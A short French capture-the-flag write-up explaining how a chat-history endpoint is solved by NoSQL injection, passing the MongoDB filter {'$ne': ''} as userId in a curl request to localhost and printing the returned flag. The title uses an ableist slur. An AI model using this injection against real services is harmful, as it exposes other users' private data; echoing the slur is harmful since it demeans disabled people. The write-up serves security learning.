 # Dio fucking retard

## Principe du challenge

On arrive sur une page web avec un formulaire qui sert à communiquer avec le serveur.
À chaque message, le serveur répond une citation aléatoire sans même lire le message envoyé.
Pour chaque utilisateur, un id aléatoire lui est attribué pour pouvoir conserver l'historique.
L'objectif est de réussir à lire les message de d'autres personnes.

## Résolution
On s'appercoit qu'à chaque rafrachissement, l'historique des messages de l'utilisateur
est conservé. C'est grace au `userId` qui est assigné lors de la première requête et qui
est stocké dans le `localeStorage`.

La première requête sert à récupéré l'historique des message en passant son `userId`.
Si c'est la première visite de l'utilisateur, un `userId` lui est assigné.

La faille provient de la récupération de l'historique des messages : le corp de la requête
est du JSON et est donc parsé comme tel. Par conséquent la valeur du `userId` envoyé par
le client peut être `null`, une `string`, un `array` ou un `object`.

On peut donc tenter une injection NoSQL en passant un filtre MongoDb qui est valide à tous
les coups :
```
{
    "userId": {
        "$ne": ""
    }
}
```

On teste ça avec curl :
```json
curl -X POST -H 'Content-Type: application/json' --data '{"userId": {"$ne": ""}}' localhost:3000/hey | jq

{
  "userId": {
    "$ne": ""
  },
  "history": [
    {
      "_id": "5e9b46fa32b62800626798c7",
      "userId": "Johnatan Joestar",
      "message": "ENSIBS{k0n0_d10_d4_!}",
      "fromDio": true
    }
  ]
}
```

